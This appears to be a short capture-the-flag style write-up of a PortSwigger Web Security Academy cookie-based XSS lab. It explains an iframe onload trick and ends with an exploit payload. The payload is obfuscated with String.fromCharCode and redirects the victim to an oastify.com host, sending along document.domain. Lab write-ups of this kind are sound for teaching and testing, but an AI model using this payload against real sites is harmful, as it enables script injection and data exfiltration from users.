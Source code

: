 An iframe is loaded with the source being the vulnerable URL with script tags. The value of the cookie is set with the value of the URL. The victim must navigate back to the home page to get executed. The `onload` attribute has a conditional that says if the window is not set, then`this.src` is set to the value of the home page. 

The iframe source would be changed to the home page. The `window.x` is set to 1 to prevent an infinite loop.

And the exploitation payload:

```html
<iframe src="https://0ac0003e03b1155582af4721003c00da.web-security-academy.net/product?productId=1&'><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,100,101,118,49,98,116,104,49,100,112,50,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34))</script>" onload="if(!window.x)this.src='https://0ac0003e03b1155582af4721003c00da.web-security-academy.net';window.x=1;">
```